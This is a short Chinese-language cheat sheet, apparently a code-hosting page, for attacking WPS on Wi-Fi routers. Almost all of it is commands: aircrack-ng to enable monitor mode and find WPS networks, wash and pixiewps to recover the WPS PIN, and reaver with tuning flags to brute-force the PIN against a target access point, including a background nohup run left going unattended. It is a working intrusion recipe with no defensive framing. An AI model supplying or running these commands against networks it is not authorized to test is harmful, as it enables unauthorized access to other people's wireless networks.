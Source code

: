 ##aircrack-ng reaver pin攻击

####激活无线网卡
     airmon-ng start wlan0 # 此时网卡名变为wlan0mon
     airmon-ng check kill # 如果报错
     airodump-ng wlan0mon --wps # 显示有开启wps wifi
####列出监听到的wifi
    wash -i wlan0mon -C
####获得wps pin
    pixiewps -e PKE -r PKR -s eHash1 -z eHash2 -a AuthKey -n enonce -m rnonce -f -v 3
####pin
    reaver -i wlan0mon -b 00:8e:f2:4e:3a:32 -vv
    reaver -i mon0  -b 00:01:02:03:04:05 -vv -S -N -L -d 60 -r 3:15 -T .5 -x 360
    # --pin=00000000 -p 从哪里开始pin
####挂机
    nohup sudo reaver -i mon0 -b 00:00:00:00:00:00 -a -S -vv -d2 -t 5 -c 11 -o fbi &

